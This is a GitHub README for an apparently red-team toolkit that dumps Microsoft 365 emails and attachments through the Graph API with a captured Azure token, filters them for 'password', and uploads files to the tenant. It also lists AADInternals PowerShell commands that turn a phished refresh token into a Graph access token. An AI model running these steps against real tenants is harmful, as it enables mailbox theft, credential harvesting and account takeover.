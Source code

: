 # MsGraphFunzy
Script to dump emails through Microsoft Graph API. it also include another script to push a file on the Azure tenant.

# Usage graph_dump.py

This script dump emails and attachments

```
python3 graph_dump.py extended_azure_token_file_path (optional filter)
```
# Filter examples

```
body:password
subject:password
attachment:password

python3 graph_dump.py extended_azure_token_file_path body:password
```

# Usage push_sharepoint.py 

This script can be used to host on file on an Azure tenant

```
python3 extract_email.py extended_azure_token_file_path file_to_upload_path remote_filename (optional -organization)
```

# Device code phishing extended scope

```
PS> install-module aadinternals
PS> import-module addinternals
PS> $t = Get-AADIntAccessTokenWithRefreshToken -clientid "d3590ed6-52b3-4102-aeff-aad2292ab01c" -resource "https://graph.microsoft.com" -tenantid "" -refreshtoken "" -savetocache 1 -includerefreshtoken 1
PS> Write-Output $t
```

# Credit
Mr.Un1k0d3r RingZer0 Team
